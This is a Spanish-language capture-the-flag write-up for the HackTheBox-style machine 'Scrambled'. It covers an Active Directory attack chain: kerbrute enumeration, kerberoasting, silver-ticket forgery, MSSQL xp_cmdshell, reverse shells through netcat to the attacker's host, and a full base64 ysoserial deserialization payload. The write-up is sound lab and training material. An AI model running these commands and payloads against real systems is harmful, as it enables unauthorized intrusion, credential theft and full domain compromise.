



# Scrambled

`Scrambled` es una máquina mediana de Windows Active Directory. Al enumerar el sitio web alojado en la máquina remota, un atacante potencial puede deducir las credenciales del usuario `ksimpson`. En el sitio web, también se indica que la autenticación `NTLM` está deshabilitada, lo que significa que se debe utilizar la autenticación Kerberos. Al acceder al recurso compartido `Public` con las credenciales de `ksimpson`, un archivo PDF indica que un atacante recuperó las credenciales de una base de datos SQL.

Esto es un indicio de que hay un servicio `SQL` ejecutándose en la máquina remota. Al enumerar las cuentas de usuario normales, se descubre que la cuenta s`qlsvc` tiene un `Service Principal Name` (SPN) asociado a ella. Un atacante puede usar esta información para realizar un ataque que se conoce como `kerberoasting` y obtener el hash de `SqlSvc`. Después de descifrar el hash y adquirir las credenciales para la cuenta `SqlSvc`, un atacante puede realizar un ataque de `ticket plateado` para falsificar un ticket y hacerse pasar por el usuario `Administrador` en el servicio MSSQL remoto. La enumeración de la base de datos revela las credenciales del usuario `MiscSvc`, que se pueden usar para ejecutar código en la máquina remota mediante la comunicación remota de PowerShell.

La enumeración del sistema como el nuevo usuario revela una aplicación `.NET`, que está escuchando en el puerto `4411`. La ingeniería inversa de la aplicación revela que está utilizando la clase insegura `Binary Formatter` para transmitir datos, lo que permite al atacante cargar su propia carga útil y obtener la ejecución del código como `NT AUTHORITY\SYSTEM`.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Proceremos a realizar un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Scrambled.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.168 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

```bash
ldapsearch -x -H ldap://10.10.11.168 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep scrm.local
```

<figure><figcaption></figcaption></figure>

## Web Enumeration

Procederemos a enumerar el puerto 80 del equipo Scrambled, que es un sitio web. Enumerando las págians del sitio web, nos encontramos con la siguiente página [http://scrm.local/support.html\
](http://scrm.local/support.html) que indica un mensaje a los usuarios informando que debido a un reciente ataque informático, han deshabilitado la autenticación NTLM en toda la red.

Esto nos sirve para saber que no podremos autenticarnos por NTLM para explotar vulnerabiliades.

<figure><figcaption></figcaption></figure>

En la siguiente página [http://scrm.local/supportrequest.html\
](http://scrm.local/supportrequest.html), nos damos cuenta que aparece en la captura lo que parece ser un usuario nombrado "ksimpson". Esto es útil debido que des de la misma enumeración de la página web podemos extraer información útil.

Más adelante, procederemos a verificar si este usuario es válido o no.

<figure><figcaption></figcaption></figure>

En la siguiente página web [http://scrm.local/passwords.html](http://scrm.local/passwords.html), se indica que el servicio de autogestión de contraseñas no está disponible actualmente debido al ataque informático. Pero que pueden dejar un mensaje indicando su usuario y el equipo de IT les restablecerá su contraseña para que coincida con el nombre de usuario.

Esto es una buena pista que podemos sacar para intentar enumerar credenciales válidas si encontramos usuarios, ya que será probable que algún usuario haya realizado el cambio de contraseña siguiendo las instrucciones del sitio web y no ha cambiado nuevamente la contraseña, por lo tanto, sigue con la contraseña que es el mismo nombre de usuario.

<figure><figcaption></figcaption></figure>

## Users Enumeration

### Kerberos User Enumeration - Kerbrute

Como aún no tenemos ningún usuario válido, procederemos primero a enumerar a ver si existe el usuario "ksimpson" que fue el que encontramos enumerando la página web.&#x20;

Finalmente comprobamos que si que existe el usuario mencionado en el AD.

```bash
catnp users

kerbrute userenum --dc 10.10.11.168 -d scrm.local users
```

<figure><figcaption></figcaption></figure>

Procederemos a realizar la enumeración nuevamente con Kerbrute, pero esta vez pasándole un diccionario completo especializado para Kerberos sobre posibles nombres de usuario con la inicial y apellidos (A-ZSurnames). Comprobamos que conseguimos un buen listado de usuarios válidos.


```bash
kerbrute userenum --dc 10.10.11.168 -d scrm.local /opt/kerberos_enum_userlists/A-ZSurnames.txt
```


<figure><figcaption></figcaption></figure>

### ASRepRoast Attack (GetNPUsers) - \[FAILED]

Como tenemos una cierta cantidad de usuarios válidos en el AD, podríamos intentar realizar un **ASRepRoast Attack** para verificar si alguno tiene la configuración (DONT\_REQ\_PREAUTH) en Kerberos. Esto nos permitiría obtener un TGT (Ticket Granting Ticket) y explorar posibles accesos.

Guardaremos los usuarios enumerados en un archivo "users" y procederemos a realizar el ataque, finalmente comprobamos que ninguno de los usuarios cumple el requisito, por lo tanto no podemos realizar el ataque.

```bash
catnp users

GetNPUsers.py -no-pass -usersfile users scrm.local/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

### Password Brute Force - Kerbrute

Recordando la página de "Reset Passwords" que enumeramos del sitio web, mencionaba que el equipo de IT restablecía la contraseña utilizando el mismo nombre de usuario.

En este punto, lo que podemos realizar es un ataque de fuerza Bruta para ver si uno de ellos tiene de contraseña el mismo nombre de usuario. En este caso del listado de usuarios, el usuario "ksimpson" es el que dispone como contraseña el mismo nombre de usuario. Por lo tanto, disponemos de unas credenciales válidas del dominio.

```bash
kerbrute bruteuser --dc 10.10.11.168 -d scrm.local users ksimpso
```

<figure><figcaption></figcaption></figure>

Crearemos un archivo llamado "credentials.txt" en el cual iremos almacenando las credenciales válidas que vayamos obteniendo.

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

### Kerberoasting Attack - GetUsersSPNs.py

Contando ya con credenciales válidas de un usuario en el dominio, procederemos a realizar un ataque **Kerberoasting** para intentar obtener un TGS (Ticket Granting Service) de alguna cuenta de servicio del dominio.&#x20;

En este caso, obtenemos un mensaje que indica: "`Probably NTLM is disabled`". Esto ya lo sabíamos previamente por el anuncio en el sitio web cuando lo enumeramos.

```bash
impacket-GetUserSPNs -dc-ip 10.10.11.168 scrm.local/ksimpson:ksimpson -request
```

<figure><figcaption></figcaption></figure>

Dado que confirmamos que la autenticación NTLM está deshabilitada, ahora verificaremos si podemos obtener información utilizando autenticación Kerberos (_-k_), especificando el (_-dc-host_), que en este caso sería _dc1-scrm.local_. Al ejecutar el comando, observamos que logramos obtener los SPN (Service Principal Name) y el nombre de una cuenta que parece ser de servicio: _sqlsvc_.


```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local 2>/dev/null
```


<figure><figcaption></figcaption></figure>

Confirmado que a través de la autenticación por Kerberos obtenemos información, procederemos a realizar el ataque de **Kerberoasting** para intentar obtener un TGS (Ticket Granting Service) de alguna cuenta de servicio en el dominio.

Verificamos que obtenemos el hash krb5 del usuario "sqlsvc", que habíamos enumerado en el paso anterior.


```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local -request 2>/dev/null
```


<figure><figcaption></figcaption></figure>

Procederemos a guardarnos el hash en un archivo nombrado "hash.txt".

```bash
catnp hash.txt
```

<figure><figcaption></figcaption></figure>

### Cracking hashes with Hashcat

Procederemos a crackear el hash con la herramienta de **Hashcat** para intentar descubrir la contraseña correspondiente al hash krb5 y así obtener la contraseña en texto plano del usuario "sqlsvc"&#x20;

Verificamos que **Hashcat** ha logrado crackear el hash, revelando que la contraseña es: `Pegasus60`

```bash
hashcat hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

Procederemos a guardar estas nuevas credenciales en nuestro archivo "credentials.txt", además indicaremos el SPN (Service Principal Name) al cual corresponde esta cuenta de servicio.

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

## Attempting to authenticate to the MSSQL service via Kerberos \[FAILED]

"Dado que contamos con las credenciales de la cuenta de servicio que ejecuta MSSQL y hemos verificado que el servicio está expuesto en el puerto 1433, intentaremos autenticarnos en el servicio MSSQL mediante Kerberos, ya que la autenticación por NTLM está deshabilitada.

Al probar, vemos el mensaje: Login failed for user 'sqlsvc', y al intentar con el parámetro `-windows-auth`, se confirman los errores de NTLM."


```bash
mssqlclient.py scrm.local/sqlsvc:Pegasus@10.10.11.168 2>/dev/null

mssqlclient.py scrm.local/sqlsvc:Pegasus@10.10.11.168 -windows-auth 2>/dev/null
```


<figure><figcaption></figcaption></figure>

Generaremos un TGT (Ticket Granting Ticket) para los usuarios _sqlsvc_ y _ksimpson_, ya que conocemos sus credenciales. Luego intentaremos conectarnos al servicio MSSQL utilizando esos TGT mediante la variable _KRB5CCNAME_ y el cliente _mssqlclient.py_ con la autenticación Kerberos (_-k_).

A pesar de estos intentos, no logramos establecer la conexión.

```bash
impacket-getTGT scrm.local/sqlsvc:Pegasus60

KRB5CCNAME=sqlsvc.ccache mssqlclient.py dc1.scrm.local -k

impacket-getTGT scrm.local/ksimpson:ksimpson

KRB5CCNAME=ksimpson.ccache mssqlclient.py dc1.scrm.local -k
```

<figure><figcaption></figcaption></figure>

## Silver Ticket Attack

Debido que no podemos autenticarnos con los usuarios que hemos encontrado, podemos plantearnos el siguiente ataque: _**Silver Ticket Attack**_

Pensando que el usuario 'sqlsvc' es el que corre el servicio de MSSQL, podemos plantearnos realizar el ataque mencionado. Debido que para ejecutar el ataque debremos de disponer de los tres puntos siguientes:

* **Hash NTLM** -> (lo conseguiremos a través de un convertidor de HASH NTLM, ya que disponemos de la contraseña en texto plano)
* **SPN (Service Principal Name)** -> (lo disponemos de cuando realizamos el Kerberoasting \[GetUserSPNs] )
* **Domain-Site ->** (lo conseguiremos a través de getPAC.py)

Teniendo todo estos datos, tenemos capacidad de generar un TGS (Ticket Granting Service) de cualquier usuario del dominio.

Por lo tanto, podemos generar un TGS al usuario Administrador para llegarnos a conectar al AP (Application Server) que corre el servicio de MSSQL con el TGS obtenido, es decir, impersonando al usuario "Administrator".

<figure><figcaption></figcaption></figure>


### Generating NTLM Hash through the online converter

Como disponemos de la contraseña en texto plano, pero para efectuar el **Silver Ticket Attack** debemos de disponer la contraseña en formato NTLM Hash, procederemos a convertirla a través de un Convertidor Online como es el siguiente - [https://codebeautify.org/ntlm-hash-generator](https://codebeautify.org/ntlm-hash-generator)&#x20;

Comprobamos que hemos generado el hash NTLM de la contraseña "Pegasus60" que correspondía a la de la cuenta de servicio 'sqlsvc'.+

<figure><figcaption></figcaption></figure>

### Obtaining the Domain SID (getPAC.py)

Para obtener el Domain SID que lo necesitaremos para la ejecución del ataque, podemos hacer uso de **getPAC.py** para obtener el dato.


```bash
getPac.py scrm.local/ksimpson:ksimpson -targetUser Administrator 2>/dev/null | grep "Domain SID"

```


<figure><figcaption></figcaption></figure>

### Forging a new TGS as Administrator user (NTLM Hash, Domain SID and SPN) (ticketer.py)

Guardaremos todos los datos que necesitamos en nuestor archivo "credentials.txt"

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

Utilizaremos la herramienta **ticketer.py** para ejecutar el **Silver Ticket Attack**, generando un TGS (Ticket Granting Service) que represente al usuario Administrator. Con este ticket, nos haremos pasar por Administrator al acceder al servicio MSSQL.


```bash
ticketer.py -spn MSSQLSvc/dc1.scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip dc1.scrm.local -nthash b999a16500b87d17ec7f2e2a68778f05 Administrator -domain scrm.local 2>/dev/null
```


<figure><figcaption></figcaption></figure>

## MSSQL service

### Connecting to the MSSQL service with the newly created ticket

Con el tiquet TGS (Ticket Granting Service) procederemos a conectarnos a través de la variable KRB5CCNAME para indicarle el tiquet que hemos generado del usuario Administrator y con la herramienta de **mssqlclient.py** procederemos a autenticarnos al MSSQL service mediante Kerberos.

Comprobamos que hemos podido acceder al servicio MSSQL como usuario Administrator.

```bash
KRB5CCNAME=Administrator.ccache mssqlclient.py dc1.scrm.local -k
```

<figure><figcaption></figcaption></figure>

### Enabling xp\_cmdshell component in MSSQL \[RCE]

Una vez obtenido el acceso, procederemos a configurar el MSSQL para habilitar el "_**xp\_cmdshell**_" que es un componente para la ejecución de comandos, para así obtener un RCE (Remote Code Execution).

Comprobaremos que funciona correctamente el RCE.

```sql
SP_CONFIGURE "show advanced options", 1

RECONFIGURE

SP_CONFIGURE "xp_cmdshell", 1

RECONFIGURE

xp_cmdshell "whoami"
```

<figure><figcaption></figcaption></figure>

En nuestra Kali nos copiaremos el binario de "nc.exe" a nuestro directorio actual de trabajo y levantaremos un servidor web para compartir el binario con el MSSQL que tenemos acceso.

```bash
locate nc.exe


cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Des del MSSQL procederemos  descargarnos el "nc.exe" que estamos compartiendo des de nuestra Kali y lo almacenaremos en el directorio "C:\Temp".

```sql
xp_cmdshell "curl 10.10.14.13/nc.exe -o C:\Temp\netcat.exe"
```

<figure><figcaption></figcaption></figure>

En nuestra Kali, nos pondremos en escucha por el puerto 443.

Des de MSSQL procederemos a otorgarnos una Reverse Shell a nuestra Kali. Comprobamos que ganamos acceso al equipo, intentamos buscar la flag de "user.txt" pero no la localizamos.

```bash
rlwrap nc -nlvp 443

xp_cmdshell "C:\Temp\netcat.exe -e cmd.exe 10.10.14.13 443"
```

<figure><figcaption></figcaption></figure>

## Abusing SeImpersonatePrivilege (JuiciPotatoNG) - \[FAILED]

Nos encontramos conectados al equipo comprometido con el usuario "sqlsvc". Revisando que privilegios dispone el usuario, nos damos cuenta que tiene habilitado el privilegio de [SeImpersonatePrivilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/), lo que nos permite impersonar a cualquier usuario.

```bash
whoami /priv
```

<figure><figcaption></figcaption></figure>

En nuestra Kali procederemos a descargarnos el binario de [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1), lo compartiremos a través de un servidor web montado en Python y des del equipo comprometido nos descargaremos el binario.[\
](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1)

```bash
mv /home/kali/Descargas/JuicyPotatoNG.zip .

unzip JuicyPotatoNG.zip

mv JuicyPotatoNG.exe privesc.exe

python3 -m http.server 80

mkdir privesc

cd privesc

curl 10.10.14.13/privesc.exe -o privesc.exe
```

<figure><figcaption></figcaption></figure>

Probamos de ejecutar el binario para impersonar al usuario "Administrator" y que dicho usuario ejecute una cmd para que nos envíe una Reverse Shell a nuestra Kali, pero nos da problemas.

Esto seguramente por el CSID ya que nos encontramos en un Windows Server 2019 y dan problemas. Descartamos esta opción finalmente, probamos con PrintSpoofer y mismo resultado.


```powershell
.\JuicyPotatoNG.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Temp\netcat.exe -e cmd 10.0.14.13 443"
```


<figure><figcaption></figcaption></figure>

## User Pivoting

### MSSQL Enumeration

Volveremos al MSSQL service y procederemos a enumerar las BBDD, tablas y columnas y datos que existan. Comprobamos los nombres de las BBDD que existen.

```sql
SELECT name FROM master.sys.databases;
```

<figure><figcaption></figcaption></figure>

Procederemos a listar las tablas de la BBDD "ScrambleHR".

```sql
SELECT table_name FROM ScrambleHR.information_schema.tables;
```

<figure><figcaption></figcaption></figure>

Utilizaremos la BBDD mencionada y comprobarmeos todos los datos de la tabla "UserImport". Nos damos cuenta que aparece un usuario nombrado "miscsvc" y aparece su contraseña en texto plano.

```sql
USE ScrambleHR

SELECT * FROM UserImport;
```

<figure><figcaption></figcaption></figure>

### RCE pivoting user with new credentials found

Volviendo a la terminal que habíamos ganado acceso anteriormente, probaremos de realizar un RCE para que sea ejecutado con el usuario encontrado para otorgarnos una Reverse Shell y ganar acceso al equipo con el usuario mencionado.

Primero de todo, crearemos el objeto en cuestión con su nombre de usuario y contraseña.


```powershell
$user = 'scrm.local\miscsvc'

$password = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($user, $password)
```


<figure><figcaption></figcaption></figure>

Verificaremos que actualmente somos el usuario "sqlsvc". Realizaremos el comando Invoke-Command con las credenciales almacenadas en la variable y a través de un ScriptBlock pasándole como comando "whoami" nos devuelve que somos el usuario "miscsvc", por lo tanto, comprobamos que podemos ejecutar comandos a nombre de dicho usuario.

```powershell
whoami

Invoke-Command -ComputerName DC1 -Credential $cred -ScriptBlock { whoami }
```

<figure><figcaption></figcaption></figure>

En este punto, nos pondremos en escucha por el puerto 443 y a través del comando Invoke-Command y el Script-Block utilizando las credenciales almacenadas del usuario "miscsvc" nos otorgaremos una Reverse Shell.

Comprobamos que ganamos acceso al equipo como usuario "miscsvc" y localizamos la flag de **user.txt**


```powershell
rlwrap nc -nlvp 443

Invoke-Command -ComputerName DC1 -Credential $cred -ScriptBlock { C:\Temp\netcat.exe -e cmd 10.10.14.13 443 }
```


<figure><figcaption></figcaption></figure>

## SMB Enumeration

Teniendo las credenciales del nuevo usuario, probaremos de conectarnos al SMB utilizando la autenticación de Kerberos (-k) debido que el NTLM está deshabilitado.

Nos conectaremos utilizando la herramienta de **smbclient.py**. Enumeramos el SMB y nos descargaremos los archivos "ScrambleClient.exe" y "ScrambleLib.dll".

```bash
smbclient.py scrm.local/miscsvc:ScrambledEggs9900@dc1.scrm.local -k 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## EXE Binary Analysis

Nos pasaremos los dos archivos a nuestra MV de Windows 10 para analizar el binario. Ejecutando el binario comprobamos que tiene la siguiente interfaz, nos conectamos al server "dc1.scrm.local" y dejamos el puerto que viene ya por defecto. También le daremos para habilitar el debug.

<figure><figcaption></figcaption></figure>

Probaremos de iniciar sesión con las credenciales encontradas, pero no ganamos acceso.

<figure><figcaption></figcaption></figure>

### Debugging with DNSpy

Procederemos a analizar el binario y el .dll a través de la herramienta **DNSpy**. Comprobando el .dll en el módulo de "SalesOrder" comprobamos que se está realizando serialización y deserialización. Esto puede ser un vector de ataque que podremos intentar explotar más adelante, debido que si está mal configuardo podemos realizar un **Deserialization Attack** para inyectar código malicioso.

<figure><figcaption><p>WE</p></figcaption></figure>

Revisando el módulo de (ScrambleNetClient) comprobamos que hay una especio de backdoor que indica que a través del usuario "scrmdev" sin otorgarle contraseña se puede acceder a la aplicación.

<figure><figcaption></figcaption></figure>

Probaremos de iniciar sesión con el usuario "scrmdev" sin otorgarle credenciales.

<figure><figcaption></figcaption></figure>

Probaremos de enviar una nueva orden.

<figure><figcaption></figcaption></figure>

Comprobaremos que se ha enviado correctamente la orden al servidor.

<figure><figcaption></figcaption></figure>

Fijándonos en el .txt que genera el debug, nos damos cuenta que lo que se envía al servidor es el comando "UPLOAD\_ORDER" con los datos serializados en Base64. Esto podemos intentar revisar si no está correctamente sanitizado para ejecutar código malicioso en el servidor.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Creating a malicious base64 serialized Payload with ysoserial.net in order to get RCE

Procederemos a crearnos un payload de un código malicioso serializado en Base64 con la herramienta de [**ysoserial**](https://github.com/pwntester/ysoserial.net/releases/tag/v1.36)**.**

Procederemos a ejecutar la herramienta para crearnos el payload, especificando que el formato de serialización será _BinaryFormatter_ (este dato lo sabemos de cuando revisamos con DNSpy aparecía que el dato se encontraba en dicho formato), seguidamente que nos devuelva el output del payload encodeado en Base64 y que el comando será una Reverse Shell a nuestra Kali utilizando el Netcat que dejamos anteriormente cuando ganamos acceso al equipo por primera vez.


```powershell
.\ysoserial.exe -g WindowsIdentity -f BinaryFormatter -o base64 -c "C:\Temp\netcat.exe -e cmd 10.10.14.13 443" 
```


<figure><figcaption></figcaption></figure>

### Send malicious payload to Kali with SmbServer

El contenido del payload nos lo guardaremos en un archivo .txt

<figure><figcaption></figcaption></figure>

Des de nuestra Kali, procedermos a crearnos un servidor SMB que comparta un recurso compartido nombrado "smbFolder" del directorio actual de trabajo. Este paso es esencial para compartiros el archivo entre Windows y nuestra Kali.

Configuraremos el servidor SMB especificando unas credenciales y habilitaremos el soporte a SMB2.

```bash
smbserver.py smbFolder $(pwd) -username gzzcoo -password gzzcoo123 -smb2support
```

<figure><figcaption></figcaption></figure>

Des de la MV de Windows, mapearemos el recurso SMB asignándole la unidad X y accederemos con las credenciales. Una vez mapeado el recurso, copiaremos el archivo guardado "command.txt" a la unidad mapeada para así obtener el archivo en nuestra Kali.

```powershell
net use x: \\192.168.46.128\smbFolder /user:gzzcoo gzzcoo123

copy command.txt x:\command.txt
```

<figure><figcaption></figcaption></figure>

En nuestra Kali, comprobaremos que disponemos del archivo "command.txt" que nos hemos compartido y del contenido que no haya sido alterado.

```bash
ls -l | grep command

catnp command.txt ; echo
```

<figure><figcaption></figcaption></figure>

### We send the serialized data to the server

En una terminal, nos pondremos en escucha con **nc** por el puerto 443 que es el que configuramos la Reverse Shell en el payload.

Con **nc** nos conectaremos al equipo de Scrambled (10.10.11.168) por el puerto 4411 que es donde se conecta la aplicación que ejecuta el programa y tramita la deserialización y serialización del dato. Le pasaremos el comando "UPLOAD\_ORDER" que es la orden que espera recibir el servidor seguidamente del payload serializado.

Comprobamos que ganamos acceso al equipo como usuario "Administrator" que es el que ejecuta estos comandos en el servidor de la aplicación comprometida. Esto se ha logrado debido que no está bien sanitizado y el servidor al enviar el dato serializado, al deserializarlo no valida correctamente la entrada que envía el usuario, por lo tanto logramos obtener una Reverse Shell de este método.

Comprobamos la flag de **root.txt.**


```bash
rlwrap nc -nlvp 443

nc 10.10.11.168 4411

UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFsLldpbmRvd3NJZGVudGl0eQEAAAAkU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LmFjdG9yAQYCAAAA9AlBQUVBQUFELy8vLy9BUUFBQUFBQUFBQU1BZ0FBQUY1TmFXTnliM052Wm5RdVVHOTNaWEpUYUdWc2JDNUZaR2wwYjNJc0lGWmxjbk5wYjI0OU15NHdMakF1TUN3Z1EzVnNkSFZ5WlQxdVpYVjBjbUZzTENCUWRXSnNhV05MWlhsVWIydGxiajB6TVdKbU16ZzFObUZrTXpZMFpUTTFCUUVBQUFCQ1RXbGpjbTl6YjJaMExsWnBjM1ZoYkZOMGRXUnBieTVVWlhoMExrWnZjbTFoZEhScGJtY3VWR1Y0ZEVadmNtMWhkSFJwYm1kU2RXNVFjbTl3WlhKMGFXVnpBUUFBQUE5R2IzSmxaM0p2ZFc1a1FuSjFjMmdCQWdBQUFBWURBQUFBMkFVOFAzaHRiQ0IyWlhKemFXOXVQU0l4TGpBaUlHVnVZMjlrYVc1blBTSjFkR1l0TVRZaVB6NE5DanhQWW1wbFkzUkVZWFJoVUhKdmRtbGtaWElnVFdWMGFHOWtUbUZ0WlQwaVUzUmhjblFpSUVselNXNXBkR2xoYkV4dllXUkZibUZpYkdWa1BTSkdZV3h6WlNJZ2VHMXNibk05SW1oMGRIQTZMeTl6WTJobGJXRnpMbTFwWTNKdmMyOW1kQzVqYjIwdmQybHVabmd2TWpBd05pOTRZVzFzTDNCeVpYTmxiblJoZEdsdmJpSWdlRzFzYm5NNmMyUTlJbU5zY2kxdVlXMWxjM0JoWTJVNlUzbHpkR1Z0TGtScFlXZHViM04wYVdOek8yRnpjMlZ0WW14NVBWTjVjM1JsYlNJZ2VHMXNibk02ZUQwaWFIUjBjRG92TDNOamFHVnRZWE11YldsamNtOXpiMlowTG1OdmJTOTNhVzVtZUM4eU1EQTJMM2hoYld3aVBnMEtJQ0E4VDJKcVpXTjBSR0YwWVZCeWIzWnBaR1Z5TGs5aWFtVmpkRWx1YzNSaGJtTmxQZzBLSUNBZ0lEeHpaRHBRY205alpYTnpQZzBLSUNBZ0lDQWdQSE5rT2xCeWIyTmxjM011VTNSaGNuUkpibVp2UGcwS0lDQWdJQ0FnSUNBOGMyUTZVSEp2WTJWemMxTjBZWEowU1c1bWJ5QkJjbWQxYldWdWRITTlJaTlqSUVNNlhGUmxiWEJjYm1WMFkyRjBMbVY0WlNBdFpTQmpiV1FnTVRBdU1UQXVNVFF1TVRNZ05EUXpJaUJUZEdGdVpHRnlaRVZ5Y205eVJXNWpiMlJwYm1jOUludDRPazUxYkd4OUlpQlRkR0Z1WkdGeVpFOTFkSEIxZEVWdVkyOWthVzVuUFNKN2VEcE9kV3hzZlNJZ1ZYTmxjazVoYldVOUlpSWdVR0Z6YzNkdmNtUTlJbnQ0T2s1MWJHeDlJaUJFYjIxaGFXNDlJaUlnVEc5aFpGVnpaWEpRY205bWFXeGxQU0pHWVd4elpTSWdSbWxzWlU1aGJXVTlJbU50WkNJZ0x6NE5DaUFnSUNBZ0lEd3ZjMlE2VUhKdlkyVnpjeTVUZEdGeWRFbHVabTgrRFFvZ0lDQWdQQzl6WkRwUWNtOWpaWE56UGcwS0lDQThMMDlpYW1WamRFUmhkR0ZRY205MmFXUmxjaTVQWW1wbFkzUkpibk4wWVc1alpUNE5Dand2VDJKcVpXTjBSR0YwWVZCeWIzWnBaR1Z5UGdzPQs=
```


<figure><figcaption></figcaption></figure>
